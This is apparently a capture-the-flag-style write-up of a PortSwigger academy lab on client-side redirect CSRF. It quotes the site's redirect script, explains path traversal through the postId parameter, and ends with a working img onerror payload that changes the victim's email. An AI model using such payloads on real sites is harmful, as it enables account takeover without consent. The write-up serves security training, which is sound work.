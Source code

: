 ## Lab 8: Client-Side Redirect

To solve this lab, change the victim's email. There's a comment functionality for this site, and I noticed this Javascript file being requested:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-13.png)

Here's the code:

```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

This file has a `postId` parameter, which searches for the respective GET parameter, then redirects the user to `blogPath + '/' + postId`. The `postId` is a user-controlled parameter, so directory traversal is possible using this.

It should be noted that the script is loaded upon sending a GET request to `/post/comment/confirmation/?postId=postId`. 

I also noted that sending a GET request instead of a POST request works in changing the user's email.

![]](../../.gitbook/assets/portswigger-csrf-writeup-image-14.png)

Here's the final payload:

```html
<img src="x" onerror=document.location="https://0a3b000203491069800d718500f0004e.web-security-academy.net/post/comment/confirmation?postId=3/../../my-account/change-email?email=pwned@rekt.com%26submit=1">
```

